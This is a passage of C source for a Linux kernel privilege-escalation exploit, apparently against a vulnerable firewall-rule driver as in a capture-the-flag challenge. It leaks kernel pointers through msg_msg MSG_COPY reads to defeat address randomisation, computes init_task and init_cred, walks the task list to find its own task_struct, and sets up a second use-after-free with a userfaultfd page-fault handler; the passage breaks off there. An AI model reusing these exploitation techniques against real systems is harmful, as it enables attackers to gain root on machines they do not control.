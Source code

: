 ```c
    if ((dump[i] & 0xfff) == 0x7a0) {
      init_ipc_ns = dump[i];
      printf("[+] index: %d\n", i);
      break;
    }
  }
  kernbase = init_ipc_ns - 0xc3d7a0;
  init_task = kernbase + 0xc124c0;
  init_cred = kernbase + 0xc33060;
  printf("[+] kernbase:\t0x%lx\n", kernbase);
  printf("[+] init_ipc_ns:\t0x%lx\n", init_ipc_ns);
  printf("[+] init_task:\t0x%lx\n", init_task);
  printf("[+] init_cred:\t0x%lx\n", init_cred);

  printf("[*] Task struct searching...\n");

  pid_t pid = getpid();
  printf("[+] self pid:\t%d\n", pid);
  uint64_t cur = init_task;
  for (;;) {
    pid_t cur_id = 0;

    bzero(rule->ip, 16);
    ip_value_to_str(cur + 0x290, rule->ip, 16);
    ip_value_to_str((cur + 0x290) >> 32, rule->netmask, 16);
    ioctl(global_fd, EDIT_RULE, rule);
    bzero(dump, 0x1500);
    ret = msgrcv(qid, dump, 0x1500, 0, IPC_NOWAIT | MSG_COPY | MSG_NOERROR);
    if (ret < 0) {
      die("[!] Failed to recv message");
    }

    // read pid
    cur_id = *((uint32_t *)((uint64_t)dump + 0x10d8));
    printf("[+] cur:\t0x%lx, pid:\t%d\n", cur, cur_id);
    if (cur_id == pid) {
      task_struct = cur;
      break;
    }
    // next
    cur = *((uint64_t *)((uint64_t)dump + 0xfe0)) - 0x298;
  }
  printf("[+] task_struct:\t0x%lx\n", task_struct);

  printf("[*] UAF again...\n");
  rule->idx = 1;
  rule->type = INBOUND;
  strcpy(rule->netmask, "255.255.255.255");
  strcpy(rule->ip, "127.0.0.1");

  add_rule(rule);
  dup_rule(rule);
  del_rule(rule);

  void *target = mmap((void *)0xdea1000, PAGE_SIZE * 2, PROT_READ | PROT_WRITE,
                      MAP_PRIVATE | MAP_ANONYMOUS | MAP_FIXED, 0, 0);
  if (target == MAP_FAILED) {
    die("[!] Failed to mmap target");
  }
  target = (void *)(0xdea2000 - 8);
  *(uint32_t *)target = 1;
  RegisterUserfault((void *)0xdea2000, fault_handler_thread);

```